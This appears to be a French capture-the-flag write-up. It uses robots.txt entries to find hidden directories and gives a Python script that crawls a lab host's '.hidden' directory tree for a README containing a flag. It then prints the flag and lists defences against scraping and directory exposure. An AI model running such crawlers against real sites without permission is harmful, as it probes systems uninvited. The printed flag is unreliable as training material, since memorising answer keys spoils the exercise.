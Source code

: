 
---

# Exploitation de Faille et Prévention de Web Scraping

## Description de la Faille

Cette faille a été découverte grâce au fichier `robots.txt` du site web. Le fichier `robots.txt` indique les répertoires ou fichiers que le propriétaire du site souhaite exclure des moteurs de recherche. En examinant ce fichier, nous avons trouvé des répertoires cachés qui contiennent potentiellement des fichiers sensibles comme des README.

## Découverte de la Faille

1. **Accéder au fichier `robots.txt`** :
   - En visitant `http://ip-addr/robots.txt`, nous avons trouvé des instructions révélant des répertoires cachés.

2. **Analyser le contenu de `robots.txt`** :
   - Le fichier `robots.txt` contenait des directives `Disallow` qui indiquaient les répertoires et fichiers que les moteurs de recherche ne doivent pas indexer.

3. **Explorer les répertoires cachés** :
   - Nous avons décidé de développer un script pour explorer automatiquement ces répertoires et trouver des fichiers README contenant des informations sensibles, comme des flags.

## Script de Web Scraping

Nous avons développé un script Python optimisé pour parcourir l'arborescence des répertoires, rechercher des fichiers README et télécharger leur contenu. Voici le script :

```python
import requests
from bs4 import BeautifulSoup
import os
import concurrent.futures

def fetch_directory(url):
    response = requests.get(url)
    soup = BeautifulSoup(response.content, 'html.parser')
    return soup.find_all('a')

def is_readme_file(link):
    return link.text.strip() == 'README'

def process_directory(current_url, max_depth, current_depth):
    if current_depth > max_depth:
        return None, None
    
    links = fetch_directory(current_url)
    directories_to_check = []

    for link in links:
        href = link.get('href')
        if href and href not in ['.', '..']:
            full_url = os.path.join(current_url, href)
            if is_readme_file(link):
                response = requests.get(full_url)
                content = response.text
                if "flag" in content:
                    return full_url, content
            elif href.endswith('/'):
                directories_to_check.append(full_url)

    with concurrent.futures.ThreadPoolExecutor() as executor:
        futures = [executor.submit(process_directory, url, max_depth, current_depth + 1) for url in directories_to_check]
        for future in concurrent.futures.as_completed(futures):
            result = future.result()
            if result[0]:  # if flag_path is not None
                return result

    return None, None

def find_flag_in_readme(base_url, max_depth=10):
    return process_directory(base_url, max_depth, 0)

# Utilisation
base_url = "http://ip-addr/.hidden/"
flag_path, flag_content = find_flag_in_readme(base_url)

if flag_path:
    print(f"Flag found in: {flag_path}")
    print(f"Content: {flag_content}")
else:
    print("No flag found.")
```

### Fonctionnement du Script

1. **Fonction `fetch_directory(url)`** :
   - Effectue une requête HTTP GET pour récupérer le contenu HTML d'un répertoire.
   - Utilise BeautifulSoup pour parser le contenu et trouver tous les liens (`<a>`).

2. **Fonction `is_readme_file(link)`** :
   - Vérifie si un lien correspond à un fichier README.

3. **Fonction `process_directory(current_url, max_depth, current_depth)`** :
   - Explore récursivement les répertoires jusqu'à une profondeur maximale (`max_depth`).
   - Utilise `ThreadPoolExecutor` pour télécharger et vérifier les fichiers en parallèle.
   - Retourne le chemin et le contenu du fichier README contenant le flag, s'il est trouvé.

4. **Fonction `find_flag_in_readme(base_url, max_depth)`** :
   - Démarre l'exploration à partir de `base_url` avec une profondeur maximale de 10 (modifiable selon vos besoins).

### Exécution

- Le script explore les répertoires de manière récursive et parallèle, limitant la profondeur pour améliorer la performance.
- Il télécharge et analyse les fichiers README pour détecter la présence de flags.

## Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## Prévention contre le Web Scraping

Pour éviter que votre site web soit vulnérable au web scraping, suivez ces recommandations :

1. **Restreindre l'accès aux répertoires sensibles** :
   - Configurez votre serveur web pour restreindre l'accès aux répertoires et fichiers sensibles en utilisant des fichiers `.htaccess` ou des règles de configuration du serveur.

2. **Masquer les répertoires et fichiers critiques** :
   - Évitez de stocker des fichiers critiques ou sensibles dans des répertoires accessibles publiquement. Utilisez des chemins non prévisibles et des techniques de camouflage.

3. **Implémenter des contrôles d'accès robustes** :
   - Assurez-vous que seuls les utilisateurs autorisés peuvent accéder aux répertoires et fichiers sensibles en utilisant des systèmes d'authentification et d'autorisation.

4. **Utiliser des CAPTCHAs** :
   - Intégrez des CAPTCHAs dans les formulaires pour différencier les utilisateurs humains des bots et scripts automatisés.

5. **Surveiller et loguer les accès** :
   - Mettez en place des mécanismes de surveillance et de journalisation des accès aux répertoires et fichiers sensibles. Analysez régulièrement les logs pour détecter des comportements suspects.

6. **Utiliser des outils de sécurité pour analyser les vulnérabilités** :
   - Effectuez des analyses régulières de sécurité sur votre serveur et vos applications web pour détecter et corriger les vulnérabilités potentielles.

7. **Mettre en place des limites de taux (rate limiting)** :
   - Implémentez des limites de taux pour les requêtes sur votre serveur afin de prévenir les abus et les attaques par force brute.

8. **Former les développeurs et les administrateurs système** :
   - Sensibilisez et formez vos équipes aux meilleures pratiques de sécurité pour éviter les erreurs de configuration et les mauvaises pratiques de développement.

En suivant ces recommandations, vous pouvez réduire le risque de vulnérabilités exploitables par des scripts automatisés et améliorer la sécurité globale de votre infrastructure.

---

